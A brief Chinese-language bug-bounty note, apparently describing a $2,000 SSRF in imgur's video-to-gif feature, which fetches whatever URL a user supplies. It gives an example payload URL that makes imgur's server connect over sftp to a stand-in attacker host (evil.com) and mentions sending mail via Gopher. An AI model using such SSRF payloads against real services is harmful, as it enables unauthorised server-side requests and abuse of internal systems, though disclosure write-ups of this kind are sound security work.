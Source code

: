 Bounty	$2,000

imgur提供video-to-gif的服务，当用户要转换video时，imgur就会发送请求，目标地址就是用户提供的URL。

URL：https://imgur.com/vidgif/url?url=sftp://evil.com:11111/

使用Gopher来发送邮件
